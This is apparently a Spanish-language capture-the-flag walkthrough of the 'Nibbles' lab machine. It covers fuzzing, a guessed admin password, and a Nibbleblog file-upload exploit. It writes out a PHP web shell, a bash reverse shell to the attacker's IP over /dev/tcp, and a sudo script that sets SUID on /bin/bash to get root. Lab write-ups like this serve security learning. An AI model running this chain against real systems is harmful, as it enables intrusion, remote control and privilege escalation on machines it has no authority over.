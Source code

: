 ## Summary

Tags: 
Y
- IP -> 10.10.10.75
- Ports -> TCP (22,80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2  
    - 80 -> Apache httpd 2.4.18 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
Podemos enumerar usuarios con ese version de SSH, ya que es inferior a la version **7.7** 
Buscaremos con el codename **OpenSSH 7.2p2 ubuntu 4ubuntu2.2 launchpad** y veremos que version de Linux es: Xenial
Buscaremos con el codename **apache httpd 2.4.18 launchpad** y veremos que version de Linux es: Xenial
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
En el Wapalyzer miramos que tiene un PHP, y jQuery 2.1.0 que esta desactualizado. La ultima version de jQuery es **3.6.3**

- Cuando tenemos un **PHP** quiere decir que nos interpreta ese codigo, por tanto no lo veriamos, el que podriamos llegar  a ver seria el de **HTML**.

- Que es Nibbleblog? Es un CMS para crear blogs sin usar bases de datos

En el codigo de la web **Ctrl + u** encontramos una ruta **/nibbleblog** y mirams que hay. Por lo que creemos que hay mas rutas. Por ende nos ponemos a hacer un FUZZ

- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ** Para descibrir rutas alternativas
- **wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php** Para descubrir archivos php y encontramos un admin.php (Panel de autenticacion)

En el panel de autenticacion ya habiamos descubierto que si hya un usuario valido llamado admin, por lo que la password seria igual que como se llama la maquina nibbles. Y asi logramos entrar en la Web. 

- **Searchsploit Nibbleblogs** y descubrimos que hay una version que es igual a la de la pagina web 4.0.3 que es vulnerable a Arbitrary File Upload 
- searchsploit -x 15265.txt Para mirar el contenido del exploit

Miramos que hay una ruta en la pagina web en donde podemos subir archivos 

En el cual subiremos el siguiente que sera en php.
nano cmd.php
	<?p 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	 ?>
El cual cuando lo ejecute, nosotros podamos ejecutar comandos
Este archivo lo subimos en **Pluggins::My images** de la pagina Web
La ruta en la url en donde los guarda es **/nibbleblog/content/private/pluggis/my_images**

## User
Ahora podemos ejecutar comando remotos colocando esto al final de la url **?cmd=whoami**
por lo que hacemos lo siguiente:

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443
En la url escribimos lo siguiente /image.php?cmd=**bash -c "bash -i >& /dev/tcp/10.10.14.17/443 0>&1"** Esto nos dara la revershell a nuesta IP
Colocamos lo anterior en url-encode para que nos marque algun error:
- **bash -c "bash -i >%26 /dev/tcp/10.10.14.17/443 0>%261"** 

Y ya entramos a la maquina victima. Por lo que ahora hacemos tratamiento de la tty
-
Tratamiento de la consola Linux cuando entras a una maquina victima
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

-
Despues buscamos la primer flag -> user.txt

## Root

- **sudo -l** Tenemos un privilegio a nivel de sudoers
-Nos debemos de crear una ruta y un archivo con extension .sh que el cual al momento de escribirle algo lo podremos ejecutar como root y asi ganaremos acceso. 

nano monitor.sh 
	#!/bin/bash
	chmod u+s /bin/bash

Con este script queremos que nos ejecute este script con un permiso suid a la bash

- **sudo -u root /home/nibbler/personal/stuff/monitor.sh** Haremos que root no ejecute ese script ya que solo ahi podemos ejecutar con ese privilegio de root y nos dara una S -> privilegio suid 
- **bash -p**  (p=priviledge) y que me de la bash de forma temporal como root y listo 
Ahora solo queda buscar la flag root.txt